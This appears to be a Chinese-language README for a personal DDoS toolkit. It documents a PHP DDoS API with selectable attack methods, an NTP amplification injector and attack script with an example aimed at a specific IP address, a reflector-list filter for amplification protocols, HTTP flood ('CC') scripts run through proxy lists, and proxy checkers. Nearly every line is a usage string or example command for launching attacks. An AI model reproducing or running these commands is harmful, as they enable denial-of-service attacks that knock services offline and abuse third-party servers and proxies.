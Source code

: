 # cc
自用cc脚本
DDoS API - PHP
支持 秘钥 / 自定义方法
需要安装 PHP-SSH2 扩展
http://127.0.0.1/api.php?key=秘钥&host=IP地址&port=端口&time=时间&method=方法

NTP注入器
已去除 "请勿泄露" 字符
./ntpfill ntp.txt 4000
./ntpfill 列表文件 注入次数
https://s.threatbook.cn/report/file/c8b8735dc2bd10b207518cbc0aa6f8dbb525a7fa04b5ab0c1d8eeb973f6fcbf7/?env=centos_7_x64

DDoS Concurrent API - PHP PLUS
支持 秘钥 / 自定义方法 / 并发 / 自定义命令
需要安装 PHP-SSH2 扩展
http://127.0.0.1/api.php?key=秘钥&host=IP地址&port=端口&time=时间&method=方法&max=并发

NTP攻击脚本 (汉化)
./ntp <目标IP> <端口> <列表文件> <线程> <pps限制器|默认-1> <时间(秒)>
示例：./ntp 117.27.239.1 80 cnntp.txt 100 -1 60

EasyFilter(简易过滤) 1.0
完全汉化，已删除后门
格式
./filter <输入> <输出> <协议> <最小字节> <输出格式>
示例
./filter ntpscan.txt ntp.txt ntp 400 [ip]
./filter ssdpscan.txt ssdp.txt ssdp 200 [ip][space][bytes]
支持协议
chargen, ntp, quake, ssdp, ldap, dns, snmp, mdns, tftp, portmap, netbios
输出格式变量
[space], [ip], [bytes]

『CC+』
基于 cc.js 的美化版CC脚本
SH
./cc+.sh 线程 列表文件 方法 时间(秒) 目标(URL)
格式
node cc+.js 列表文件 方法 时间(秒) 目标(URL)
示例
node cc+.js proxy.txt GET 60 http://example.com

『CC+PLUS+』
格式
./cc+.sh 线程 列表文件 方法 速率 时间(秒) 目标(URL) 随机参数[开:t/关:f]
示例
./cc+.sh 100 proxy.txt GET 10 60 http://example.com t

『CheckChinaProxyIP』1.4
验证中国代理IP Golang 脚本
示例
./ccpip proxy.txt cn.txt 1000 5
格式
./ccpip 输入 输出 协程(线程) 超时(秒)
运行脚本前，请先执行命令
ulimit -n 999999

『ProxyFiltering』3.3
公益版 HTTP/HTTPS 代理过滤脚本
协议
http https
示例
./pf http 15 1000 origin.txt proxy.txt
格式
./pf 检测协议 超时(秒) 线程 输入 输出 [可选:检测地址(返回请求IP)]
执行脚本前，请输入此命令解除系统限制
ulimit -n 999999
更新日志
- pfbot的改版
- 增加验证节点 (验证更准确)
